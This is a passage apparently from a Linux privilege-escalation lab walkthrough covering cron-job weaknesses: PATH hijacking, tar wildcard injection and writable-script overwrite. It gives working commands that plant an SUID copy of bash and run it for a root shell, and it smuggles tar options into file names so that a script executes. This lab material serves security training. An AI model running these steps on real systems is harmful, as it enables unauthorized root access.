 1. In command prompt type: **cat /etc/crontab**

2. From the output, notice the value of the “PATH” variable.

### Exploitation



1. In command prompt type:

**echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh**

2. In command prompt type: **chmod +x /home/user/overwrite.sh**

3. Wait 1 minute for the Bash script to execute.

4. In command prompt type: **/tmp/bash -p**

5. In command prompt type: **id**

#  Cron (Wildcards)                            

### Detection

1. In command prompt type: **cat /etc/crontab**

2. From the output, notice the script “/usr/local/bin/compress.sh”

3. In command prompt type: **cat /usr/local/bin/compress.sh**

4. From the output, notice the wildcard (*) used by ‘tar’.

### Exploitation

1. In command prompt type:

**echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh**

2. **touch /home/user/--checkpoint=1**

3. **touch /home/user/--checkpoint-action=exec=sh\ runme.sh**

4. Wait 1 minute for the Bash script to execute.

5. In command prompt type: **/tmp/bash -p**

6. In command prompt type: **id**

# Cron (File Overwrite)

### Detection

1. In command prompt type: **cat /etc/crontab**

2. From the output, notice the script “overwrite.sh”

3. In command prompt type: **ls -l /usr/local/bin/overwrite.sh**

4. From the output, notice the file permissions.
